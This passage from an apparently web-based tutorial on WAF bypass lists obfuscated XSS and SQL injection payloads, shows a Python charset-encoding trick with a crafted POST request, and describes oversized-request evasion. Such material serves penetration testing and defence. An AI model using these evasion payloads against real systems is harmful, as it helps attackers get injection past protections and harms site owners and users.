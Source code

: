 
While obfuscation is a possible way to bypass regex, they have been divided into different sections to showcase more exclusively a selection of obfuscation techniques.


```
Function("ale"+"rt(1)")(); #using uncommon functions besides alert, console.log, and prompt  
javascript:74163166147401571561541571411447514115414516216450615176 #octal encoding  
<iframe src="javascript:alert(`xss`)"> #unicode encoding  
/?id=1+un/**/ion+sel/**/ect+1,2,3-- #using comments in SQL query to break up statement  
new Function`alt\`6\``; #using backticks instead of parentheses  
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 encoding the javascript  
%26%2397;lert(1) #using HTML encoding  
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> #Using Line Feed (LF) line breaks   
<BODY onload!#$%&()*~+-\_.,:;?@[/|\]^`=confirm()> # use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
```
Additional resources include [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#filter-bypass-and-exotic-payloads) and [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html).

[2. Charset](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/waf-bypass)
-----------------------------------------------------------------------------------------------

This technique involves modifying the `Content-Type` header to use a different charset (e.g. `ibm500`). A WAF that is not configured to detect malicious payloads in different encodings may not recognize the request as malicious. The charset encoding can be done in Python


```
$ python3  
-- snip --  
>>> import urllib.parse  
>>> s = '<script>alert("xss")</script>'  
>>> urllib.parse.quote\_plus(s.encode("IBM037"))  
'L%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3n'
```
The encoded string can then be sent in the request body and uploaded to the server.


```
POST /comment/post HTTP/1.1  
Host: chatapp  
Content-Type: application/x-www-form-urlencoded; charset=ibm500  
Content-Length: 74  
  
%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3
```
3. Content Size
---------------

In some cloud-based WAFs, the request won’t be checked if the payload exceeds a certain size. In these scenarios, it is possible to bypass the firewall by increasing the size of the request body or URL.

4. Unicode Compatibility
------------------------
